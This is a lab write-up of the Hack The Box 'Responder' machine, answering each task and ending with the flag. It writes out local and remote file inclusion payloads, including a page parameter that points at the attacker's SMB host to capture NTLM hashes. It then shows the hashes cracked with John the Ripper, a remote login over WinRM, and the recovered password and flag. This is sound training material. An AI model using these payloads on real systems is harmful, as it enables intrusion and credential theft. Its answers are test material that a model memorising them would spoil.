 ### Responder

**OS:** Windows<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 1](/StartingPoint/Tier1/)<br><br>
**Tags:** WinRM, Custom Applications, Protocols, XAMPP, SMB, Responder, PHP, Reconnaissance, Password Cracking, Hash Capture, Remote File Inclusion, Remote Code Execution<br>


---

#### Task 1

**When visiting the web service using the IP address, what is the domain that we are being redirected to?**

> unika.htb

We use the `curl` command with the `-L` flag to follow the redirect:

![Redirect](redirect.png)



---

#### Task 2

**Which scripting language is being used on the server to generate webpages?**

> php

We use the `curl` command with the `-I` flag to get the header:

![Header](header.png)



---

#### Task 3

**What is the name of the URL parameter which is used to load different language versions of the webpage?**

> page

We try using a browser to visit `http://unika.htb`, but get a server not found error.

![Browser Error](browser_error.png)

The `/etc/hosts` file maps IP addresses with hostnames. We can add a line to the `/etc/hosts` file mapping the website IP address to `unika.htb`.

![Add Mapping to /etc/hosts](add_host.png)

Now the website appears correctly in our browser:
![Website](website.png)

Upon looking at the website, we notice a navigation pane in the top right corner. We see that clicking on the `EN` button gives us options to change the website language to `FR` and `DE`. Clicking on the `FR` button changes the website language to French and redirects us to `http://unika.htb/index.php?page=french.html`. Clicking on the `DE` button changes the website language to German and redirects us to `http://unika.htb/index.php?page=german.html`. When the website language is changed to both French and German, the website uses the URL parameter `page` to load a different language version of the web page.



---

#### Task 4

**Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**

> ../../../../../../../../windows/system32/drivers/etc/hosts



---

#### Task 5

**Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**

> //10.10.14.6/somefile



---

#### Task 6

**What does NTLM stand for?**

> New Technology LAN Manager



---

#### Task 7

**Which flag do we use in the Responder utility to specify the network interface?**

> -I

We use Responder on the `tun0` interface:

![Launching Responder](responder1.png)



---

#### Task 8

**There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.**

> john the ripper



---

#### Task 9

**What is the password for the administrator user?**

> badminton

After launcing Responder, we exploit a remote file inclusion vulnerability and visit `http://unika.htb?page=//{OUR IP}/somefile`. The Responder machine attempts to access a file on an SMB server located on our machine and the Responder utility allows us to steal their NTLM Hash user credentials.

![Stealing NTLM Hash User Credentials](responder2.png)

Next we use the `wget` command to download the [rockyou.txt wordlist](https://github.com/josuamarcelc/common-password-list/raw/refs/heads/main/rockyou.txt/rockyou_1.txt) as a file called `wordlist.txt`. Then we use John the Ripper with our downloaded wordlist:

![John The Ripper](john.png)



---

#### Task 10

**We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?**

> 5985



---

#### Flag

> ea81b7afddd03efaa0945333ed147fac

We login to the Evil-WinRM shell with our stolen credentials. Then we view the contents the `flag.txt` file:

![Flag](flag.png)


---